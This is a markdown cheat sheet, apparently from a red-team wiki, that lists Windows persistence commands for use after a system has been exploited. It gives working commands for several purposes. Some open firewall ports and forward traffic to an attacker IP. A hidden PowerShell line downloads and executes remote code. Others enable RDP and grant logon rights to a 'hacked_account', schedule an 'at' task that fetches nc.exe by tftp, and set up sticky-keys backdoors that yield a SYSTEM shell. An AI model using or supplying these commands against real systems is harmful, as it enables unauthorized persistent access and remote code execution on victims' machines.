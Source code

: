 <!-- Code for collapse and expand -->
<script type="text/javascript">
$(document).ready(function() {
$('div.view').hide();
$('div.slide').click(function() {
$(this).next('div.view').slideToggle('fast');
return false;
});
});
</script>

# Windows General Persistence Commands

Commands to run to maintain persistence after you have exploited it and are usually executed from the context of the `cmd.exe` or `command.exe` prompt.

### Firewall Exceptions
When you modify a system to talk on the network, you may need to alter the Windows firewall so your traffic is not filtered. The `netsh` command can be used to do this as the command to enable Remote Desktop Protocol below shows:

`netsh firewall set service type = remotedesktop mode = enable`

### Allow a program to listen through the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add allowedprogram C:\nltest.exe mltest enable`

### Open a port on the firewall
Taken from http://synjunkie.blogspot.de/2008/03/basic-dos-foo.html

`netsh firewall add portopening tcp 2482 lt enable all`


### Tunnel Traffic Natively with Windows
`netsh int portproxy v4tov4 listenport=80 connecthost=[AttackerIP] connectport=80`


### Powershell Downloader
 * **Command with arguments**: `powershell.exe -w hidden -nop -ep bypass -c "IEX ((new-object net.webclient).downloadstring('http://[domainname|IP]:[port]/[file]'))"`
 * **Description**: According to [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), _"Schedule this and it will execute the shellcode on that page, pulling it each time (so you can change as needed)"_.


### Remote Assistance Enable
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fAllowToGetHelp /t REG_DWORD /d 1 /f`
 * **Description**: **Must be admin to run this.** Enable remote assistance through adding a registry entry on the local system.


### Remote Desktop Enable - Method 1
 * **Command with arguments**: `reg add “HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server” /v fDenyTSConnections /t REG_DWORD /d 0 /f`
 * **Description**: **Must be admin to run this.** Enable remote desktop through adding a registry entry on the local system.


### Remote Desktop Enable - Method 2
Remote Desktop allows a remote user to receive a graphical "desktop" of the target (compromised) system. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 53)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely enable remote desktop using the commands below.

 1. On the compromised system, create a file named `fix_ts_policy.ini` containing the contents below. Change the *"hacked_account"* value to the account you have compromised on the remote system.


    <pre>
     [Unicode]
         Unicode=yes
         [Version]
         signature="$CHICAGO$"
         Revision=1
         [Privilege Rights] [Privilege Rights]
         seremoteinteractivelogonright = hacked_account
         seinteractivelogonright = hacked_account
         sedenyinteractivelogonright =
         sedenyremoteinteractivelogonright =
         sedenynetworklogonright =
    </pre>

 1. Create another file named `enable_ts.reg` containing the contents below.



    <pre>

     Windows Registry Editor Version 5.00

     [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]

     "fDenyTSConnections"=dword:00000000

     "TSEnabled"=dword:00000001

     "TSUserEnabled"=dword:00000000

    </pre>



 1. On the remote system, execute the following commands:


```
c:\> sc config termservice start= auto sc config termservice start= auto

c:\> regedit /s enable_ts.reg

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\new.secedit.sdb

c:\> copy c:\windows\security\database\secedit.sdb c:\windows\security\database\orig.secedit.sdb

c:\> secedit /configure /db new.secedit.sdb /cfg fix_ts_policy.ini

c:\> gpupdate /Force

c:\> net start "terminal services"
```





### Scheduler

The [Windows scheduler](http://support.microsoft.com/kb/313565) can be used to further compromise a system. It usually runs at the SYSTEM account privilege level. According to Val Smith's and Colin Ames' [BlackHat 2008 presentation (page 58)](http://www.blackhat.com/presentations/bh-usa-08/Smith_Ames/BH_US_08_Smith_Ames_Meta-Post_Exploitation.pdf), you can remotely schedule tasks using the commands below.



<pre>

c:\> net use \\[TargetIP]\ipc$ password /user:username

c:\> at \\[TargetIP] 12:00 pm command

</pre>



An example you might run on the remote system might be: `at \\192.168.1.1 12:00pm tftp -I [MyIP] GET nc.exe`





### Sticky Keys (Requires reboot)

Sticky keys on Windows systems are activated when the user presses the SHIFT key 5 times. Here, according to the [posted slides](http://www.slideshare.net/mubix/windows-attacks-at-is-the-new-black-26665607), you replace the sethc.exe binary with your own binary (cmd.exe maybe?) and, when SHIFT is pressed 5 times, your binary is executed. Your binary will execute as SYSTEM and needs to replace the `%WINDIR%\System32\sethc.exe`.



Some caveats:

* If NLA (Network Layer Authentication) is enabled, this won't work

* If RDP (Remote Desktop Protocol) is disabled, this won't work





### Sticky Keys (No reboot)

This technique uses registry entries to switch the binary that the sticky keys executes. Its real advantage is that it does not require a reboot for the switch to take place.

* In the `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` make a key called `sethc.exe`

* Make a REG_SZ value called "Debugger" (Ensure it is capitalized)

* For the "Debugger" REG_SZ, make it have a value of your binary

* Press SHIFT 5 times and your binary should be executed
